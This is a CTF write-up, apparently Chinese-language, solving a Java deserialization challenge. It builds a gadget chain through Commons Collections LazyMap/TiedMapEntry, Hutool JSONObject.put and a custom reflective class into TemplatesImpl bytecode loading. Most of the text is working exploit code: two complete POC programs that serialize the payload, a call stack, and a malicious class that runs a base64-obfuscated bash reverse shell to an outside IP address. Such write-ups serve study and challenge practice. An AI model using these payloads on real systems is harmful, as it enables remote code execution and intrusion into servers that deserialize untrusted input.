







```java
1 . cn.hutool.json.JSONObject.put->com.app.Myexpect#getAnyexcept
2. jdk8u202
```

下载附件，有一个lib文件夹

```java
commons-collections-3.2.2.jar

hutool-all-5.8.18.jar
```

用jadx反编译后将lib文件夹移到resource目录下，用IDEA打开

为了更好的调试，我直接配置一个jdk8u202了

# 源码分析

CC的版本是3.2.2，官方修复中新添加了checkUnsafeSerialization功能对反序列化内容进行检测，而CC链常用到的InvokerTransformer就列入了黑名单中，所以应该是需要另外找个链子了

先看Testapp源代码

```java
package com.app;

import cn.hutool.http.ContentType;
import cn.hutool.http.HttpUtil;
import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.util.Base64;

/* loaded from: DeserBug.jar:com/app/Testapp.class */
public class Testapp {
    public static void main(String[] args) {
        HttpUtil.createServer(8888).addAction("/", (request, response) -> {
            String result;
            String bugstr = request.getParam("bugstr");
            if (bugstr == null) {
                response.write("welcome,plz give me bugstr", ContentType.TEXT_PLAIN.toString());
            }
            try {
                byte[] decode = Base64.getDecoder().decode(bugstr);
                ObjectInputStream inputStream = new ObjectInputStream(new ByteArrayInputStream(decode));
                Object object = inputStream.readObject();
                result = object.toString();
            } catch (Exception e) {
                Myexpect myexpect = new Myexpect();
                myexpect.setTypeparam(new Class[]{String.class});
                myexpect.setTypearg(new String[]{e.toString()});
                myexpect.setTargetclass(e.getClass());
                try {
                    result = myexpect.getAnyexcept().toString();
                } catch (Exception ex) {
                    result = ex.toString();
                }
            }
            response.write(result, ContentType.TEXT_PLAIN.toString());
        }).start();
    }
}

```

从url参数中获取bugstr的值并进行base64解码操作和反序列化操作

根据题目提示我们看一下`com.app.Myexpect#getAnyexcept`

## com.app.Myexpect#getAnyexcept

```java
    public Object getAnyexcept() throws Exception {
        Constructor con = this.targetclass.getConstructor(this.typeparam);
        return con.newInstance(this.typearg);
    }
```

一个反射获取构造器并进行实例化对象的操作，和InstantiateTransformer#transform()有点像



既然这样的话我们尝试用CC3链的TrAXFilter#TrAXFilter方法去**实现Templates动态加载恶意字节码**

然后我们看看**cn.hutool.json.JSONObject#put()**方法

## cn.hutool.json.JSONObject#put()

```java
    @Deprecated
    public JSONObject put(String key, Object value) throws JSONException {
        return this.set(key, value);
    }
    public JSONObject set(String key, Object value) throws JSONException {
        return this.set(key, value, (Filter)null, false);
    }
    public JSONObject set(String key, Object value, Filter<MutablePair<String, Object>> filter, boolean checkDuplicate) throws JSONException {
        if (null == key) {
            return this;
        } else {
            if (null != filter) {
                MutablePair<String, Object> pair = new MutablePair(key, value);
                if (!filter.accept(pair)) {
                    return this;
                }

                key = (String)pair.getKey();
                value = pair.getValue();
            }

            boolean ignoreNullValue = this.config.isIgnoreNullValue();
            if (ObjectUtil.isNull(value) && ignoreNullValue) {
                this.remove(key);
            } else {
                if (checkDuplicate && this.containsKey(key)) {
                    throw new JSONException("Duplicate key \"{}\"", new Object[]{key});
                }

                super.put(key, JSONUtil.wrap(InternalJSONUtil.testValidity(value), this.config));
            }

            return this;
        }
    }
```



`InternalJSONUtil.testValidity(value)`是用来验证value是否是可序列化为 JSON 的类型，而wrap函数就是JSON触发getter方法的核心逻辑



当 `value` 不是基本类型、不是集合、不是 Map、不是 JDK 内部类时，它被当作普通的 **Java Bean**，而`new JSONObject(object, jsonConfig)` 会调用构造函数，内部使用反射读取 bean 的所有 getter 属性

这里可以写个demo

```java
package com.app;

import cn.hutool.json.JSONObject;
import cn.hutool.json.JSONConfig;

public class Test {
    public static class User {
        private String name = "Alice";

        public String getName() {
            System.out.println("getter 被调用");
            return name;
        }
    }

    public static void main(String[] args) {
        // 创建一个 JSONConfig
        JSONConfig config = JSONConfig.create();

        // 创建 Hutool 的 JSONObject
        JSONObject json = new JSONObject(config);

        User user = new User();
        json.put("user", user);
    }
}
//getter 被调用
```

所以链子就是

```java
cn.hutool.json.JSONObject#put()
    ->com.app.Myexpect#getAnyexcept()
    	->TrAXFilter#TrAXFilter()
    		->TemplatesImpl动态加载恶意字节码
```

然后就是找找如何触发put方法了

# 回顾CC连如何触发put

## HashMap#readObject触发链

最简单的就是HashMap的readObejct去触发put



https://wanth3f1ag.top/2025/06/07/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96CC6%E9%93%BE/#HashMap-readObject

### 最终Gadget1

所以最终的链子是

```java
java.utilHashMap#readObject()->
	java.util.HashMap#putVal()->
	java.util.HashMap#hash()->
    	org.apache.commons.collections.keyvalue.TiedMapEntry#hashCode()->
    	org.apache.commons.collections.keyvalue.TiedMapEntry#getValue()->
    		org.apache.commons.collections.map.LazyMap#get()->
    cn.hutool.json.JSONObject#put()->
        com.app.Myexpect#getAnyexcept()->
            TrAXFilter#TrAXFilter()->
                TemplatesImpl动态加载恶意字节码
```

### 最终POC1

```java
package com.app;

import cn.hutool.json.JSONObject;
import cn.hutool.json.JSONUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class POC {
    /*
    * java.utilHashMap#readObject()->
	java.util.HashMap#putVal()->
	java.util.HashMap#hash()->
    	org.apache.commons.collections.keyvalue.TiedMapEntry#hashCode()->
    	org.apache.commons.collections.keyvalue.TiedMapEntry#getValue()->
    		org.apache.commons.collections.map.LazyMap#get()->
    cn.hutool.json.JSONObject#put()->
        com.app.Myexpect#getAnyexcept()->
            TrAXFilter#TrAXFilter()->
                TemplatesImpl动态加载恶意字节码
    * */
    public static void main(String[] args) throws Exception {
        //CC3中TemplatesImpl的利用链加载恶意类字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        TemplatesImpl templates = (TemplatesImpl)getTemplates(code);

        //配置Myexpect中的属性
        Myexpect expect = new Myexpect();
        expect.setTypeparam(new Class[]{javax.xml.transform.Templates.class});
        expect.setTargetclass(com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter.class);
        expect.setTypearg(new Object[]{templates});

        //触发TrAXFilter#TrAXFilter()
        JSONObject json = new JSONObject();
        json.put("111","222");

        ConstantTransformer constantTransformer = new ConstantTransformer(1);
        Map<Object,Object> lazyMap = LazyMap.decorate(json,constantTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"aaa");

        //在put中修改factory，导致不会触发hash，并移除key
        HashMap<Object,Object> hashmap = new HashMap<>();
        hashmap.put(tiedMapEntry, "3");
        lazyMap.remove("aaa");

        //反射修改iConstant和factory的值
        setFieldValue(constantTransformer,"iConstant", expect);
        setFieldValue(lazyMap,"factory",constantTransformer);

        serialize(hashmap);
        unserialize("poc.txt");

    }
    public static Object getTemplates(byte[] bytes)throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[][] codes = {bytes};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("poc.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```



调用栈

```java
newTransformer:486, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
<init>:58, TrAXFilter (com.sun.org.apache.xalan.internal.xsltc.trax)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:423, Constructor (java.lang.reflect)
getAnyexcept:31, Myexpect (com.app)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeRaw:1077, ReflectUtil (cn.hutool.core.util)
invoke:1008, ReflectUtil (cn.hutool.core.util)
getValue:155, PropDesc (cn.hutool.core.bean)
lambda$copy$0:66, BeanToMapCopier (cn.hutool.core.bean.copier)
accept:-1, 92150540 (cn.hutool.core.bean.copier.BeanToMapCopier$$Lambda$15)
forEach:684, LinkedHashMap (java.util)
copy:48, BeanToMapCopier (cn.hutool.core.bean.copier)
copy:16, BeanToMapCopier (cn.hutool.core.bean.copier)
copy:92, BeanCopier (cn.hutool.core.bean.copier)
beanToMap:713, BeanUtil (cn.hutool.core.bean)
mapFromBean:264, ObjectMapper (cn.hutool.json)
map:114, ObjectMapper (cn.hutool.json)
<init>:210, JSONObject (cn.hutool.json)
<init>:187, JSONObject (cn.hutool.json)
wrap:805, JSONUtil (cn.hutool.json)
set:393, JSONObject (cn.hutool.json)
set:352, JSONObject (cn.hutool.json)
put:340, JSONObject (cn.hutool.json)
put:32, JSONObject (cn.hutool.json)
get:159, LazyMap (org.apache.commons.collections.map)
getValue:74, TiedMapEntry (org.apache.commons.collections.keyvalue)
hashCode:121, TiedMapEntry (org.apache.commons.collections.keyvalue)
hash:339, HashMap (java.util)
readObject:1413, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1170, ObjectStreamClass (java.io)
readSerialData:2178, ObjectInputStream (java.io)
readOrdinaryObject:2069, ObjectInputStream (java.io)
readObject0:1573, ObjectInputStream (java.io)
readObject:431, ObjectInputStream (java.io)
unserialize:90, POC (com.app)
main:63, POC (com.app)
```

然后我们写一个恶意类进行反弹shell

```java
package com.app;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;


public class Shell extends AbstractTranslet {
    static {
        try {
            //bash反弹shell
            String command = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIzLjI1LjE4Ni8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}";
            Runtime.getRuntime().exec(command.replace("\\", "\\\\").replace("\"", "\\\""));
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```



当然HashSet也是可以的

## HashSet#readObject触发链

java.util.HashSet#readObject()

```java
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in any hidden serialization magic
        s.defaultReadObject();

        // Read capacity and verify non-negative.
        int capacity = s.readInt();
        if (capacity < 0) {
            throw new InvalidObjectException("Illegal capacity: " +
                                             capacity);
        }

        // Read load factor and verify positive and non NaN.
        float loadFactor = s.readFloat();
        if (loadFactor <= 0 || Float.isNaN(loadFactor)) {
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        }

        // Read size and verify non-negative.
        int size = s.readInt();
        if (size < 0) {
            throw new InvalidObjectException("Illegal size: " +
                                             size);
        }
        // Set the capacity according to the size and load factor ensuring that
        // the HashMap is at least 25% full but clamping to maximum capacity.
        capacity = (int) Math.min(size * Math.min(1 / loadFactor, 4.0f),
                HashMap.MAXIMUM_CAPACITY);

        // Constructing the backing map will lazily create an array when the first element is
        // added, so check it before construction. Call HashMap.tableSizeFor to compute the
        // actual allocation size. Check Map.Entry[].class since it's the nearest public type to
        // what is actually created.

        SharedSecrets.getJavaOISAccess()
                     .checkArray(s, Map.Entry[].class, HashMap.tableSizeFor(capacity));

        // Create backing HashMap
        map = (((HashSet<?>)this) instanceof LinkedHashSet ?
               new LinkedHashMap<E,Object>(capacity, loadFactor) :
               new HashMap<E,Object>(capacity, loadFactor));

        // Read in all elements in the proper order.
        for (int i=0; i<size; i++) {
            @SuppressWarnings("unchecked")
                E e = (E) s.readObject();
            map.put(e, PRESENT);	//Gadget1: e=Object of TiedMapEntry
        }
    }
```

java.util.HashMap#put()->java.util.HashMap#hash()

```java
 public V put(K key, V value) { //Gadget2: key=Object of TiedMapEntry
     return putVal(hash(key), key, value, false, true);
 }

static final int hash(Object key) { //Gadget3: key=Object of TiedMapEntry
     int h;
     return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
 }
```

然后后面的就跟前面的一样了

### 最终Gadget2

```java
java.util.HashSet#readObject()
    ->HashMap#put()
    ->java.util.HashMap#hash()
    	->org.apache.commons.collections.keyvalue.TiedMapEntry#hashCode()
    	->org.apache.commons.collections.keyvalue.TiedMapEntry#getValue()
    		->org.apache.commons.collections.map.LazyMap#get()
    ->cn.hutool.json.JSONObject#put()
    	->com.app.Myexpect#getAnyexcept()
    		->TrAXFilter#TrAXFilter()
    			->TemplatesImpl动态加载恶意字节码
```

### 最终POC2

```java
package com.app;

import cn.hutool.json.JSONObject;
import cn.hutool.json.JSONUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class POC {
    /*
    * java.utilHashMap#readObject()->
	java.util.HashMap#putVal()->
	java.util.HashMap#hash()->
    	org.apache.commons.collections.keyvalue.TiedMapEntry#hashCode()->
    	org.apache.commons.collections.keyvalue.TiedMapEntry#getValue()->
    		org.apache.commons.collections.map.LazyMap#get()->
    cn.hutool.json.JSONObject#put()->
        com.app.Myexpect#getAnyexcept()->
            TrAXFilter#TrAXFilter()->
                TemplatesImpl动态加载恶意字节码
    * */
    public static void main(String[] args) throws Exception {
        //CC3中TemplatesImpl的利用链加载恶意类字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        TemplatesImpl templates = (TemplatesImpl)getTemplates(code);

        //配置Myexpect中的属性
        Myexpect expect = new Myexpect();
        expect.setTypeparam(new Class[]{javax.xml.transform.Templates.class});
        expect.setTargetclass(com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter.class);
        expect.setTypearg(new Object[]{templates});

        //触发TrAXFilter#TrAXFilter()
        JSONObject json = new JSONObject();
        json.put("111","222");

        ConstantTransformer constantTransformer = new ConstantTransformer(1);
        Map<Object,Object> lazyMap = LazyMap.decorate(json,constantTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"aaa");

        //HashSet配置Map和e
        HashSet hashSet = getHashSet(tiedMapEntry);
        lazyMap.remove("aaa");

        //反射修改factory值
        setFieldValue(constantTransformer,"iConstant", expect);
        setFieldValue(lazyMap,"factory",constantTransformer);

        serialize(hashSet);
        unserialize("poc.txt");

    }
    public static HashSet getHashSet(Object obj) throws Exception {
        HashSet set = new HashSet();
        set.add("aaa");//设置一个HashMap，key为aaa

        //设置map为HashMap
        Field map = set.getClass().getDeclaredField("map");
        map.setAccessible(true);
        HashMap map1 = (HashMap) map.get(set);

        //获取HashMap的键值对
        Field table = map1.getClass().getDeclaredField("table");
        table.setAccessible(true);
        Object[] array = (Object[]) table.get(map1);
        Object node = array[0];
        if (node == null) {
            node = array[1];
        }

        //获取其中的key并设置为obj
        setFieldValue(node, "key", obj);
        return set;
    }
    public static Object getTemplates(byte[] bytes)throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[][] codes = {bytes};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("poc.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```


